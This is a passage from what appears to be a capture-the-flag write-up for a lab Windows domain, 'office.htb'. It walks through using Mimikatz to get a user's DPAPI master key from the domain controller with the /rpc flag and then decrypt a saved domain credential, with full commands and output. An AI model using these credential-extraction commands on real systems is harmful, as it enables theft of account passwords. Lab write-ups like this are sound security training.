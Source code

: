 ```console
-a-hs-          5/2/2023   4:13 PM            740 191d3f9d-7959-4b4d-a520-a444853c47eb
-a-hs-          5/2/2023   4:13 PM            900 BK-OFFICE
-a-hs-         7/16/2024  12:59 PM            740 dd51073f-efb9-463b-a892-31cfafe2feb4
-a-hs-         7/16/2024  12:59 PM             24 Preferred
```

In order to get the secret out of these blobs we would normally need to know the user's password. However, since we are logged in we can query the Domain Controller to retrieve the secrets for us. Since we own the
master credentials associated with our own account, we can abuse this component by using the `/rpc` flag in Mimikatz. We will first upload a copy of `mimikatz.exe` and run it to extract the master key.

```console
PS C:\Users\Public> .\mimikatz.exe "dpapi::masterkey /in:C:\users\ppotts\appdata\roaming\microsoft\protect\S-1-5-21-1199398058-4196589450-691661856-1107\191d3f9d-7959-4b4d-a520-a444853c47eb /rpc" "exit"

 .#####.   mimikatz 2.2.0 (x64) #18362 Feb 29 2020 11:13:36
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > http://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > http://pingcastle.com / http://mysmartlogon.com   ***/

mimikatz(commandline) # dpapi::masterkey /in:C:\users\ppotts\appdata\roaming\microsoft\protect\S-1-5-21-1199398058-4196589450-691661856-1107\191d3f9d-7959-4b4d-a520-a444853c47eb /rpc

<SNIP>

[domainkey] with RPC
[DC] 'office.htb' will be the domain
[DC] 'DC.office.htb' will be the DC server
  key : 87eedae4c65e0db47fcbc3e7e337c4cce621157863702adc224caf2eedcfbdbaadde99ec95413e18b0965dcac70344ed9848cd04f3b9491c336c4bde4d1d8166
  sha1: 85285eb368befb1670633b05ce58ca4d75c73c77

mimikatz(commandline) # exit
Bye!
```

The second blob is the correct one (oldest date) and we can find the master key at the bottom. We can then decrypt the blobs using this master key and find a password in the second credential blob.

```console
PS C:\Users\Public> .\mimikatz.exe "dpapi::cred /in:C:\Users\PPotts\AppData\Roaming\Microsoft\Credentials\84F1CAEEBF466550F4967858F9353FB4 /masterkey:87eedae4c65e0db47fcbc3e7e337c4cce621157863702adc224caf2eedcfbdbaadde99ec95413e18b0965dcac70344ed9848cd04f3b9491c336c4bde4d1d8166" "exit"

<SNIP>

Decrypting Credential:
 * masterkey     : 87eedae4c65e0db47fcbc3e7e337c4cce621157863702adc224caf2eedcfbdbaadde99ec95413e18b0965dcac70344ed9848cd04f3b9491c336c4bde4d1d8166
**CREDENTIAL**
  credFlags      : 00000030 - 48
  credSize       : 000000be - 190
  credUnk0       : 00000000 - 0

  Type           : 00000002 - 2 - domain_password
  Flags          : 00000000 - 0
  LastWritten    : 5/9/2023 11:03:21 PM
  unkFlagsOrSize : 00000018 - 24
  Persist        : 00000003 - 3 - enterprise
  AttributeCount : 00000000 - 0
```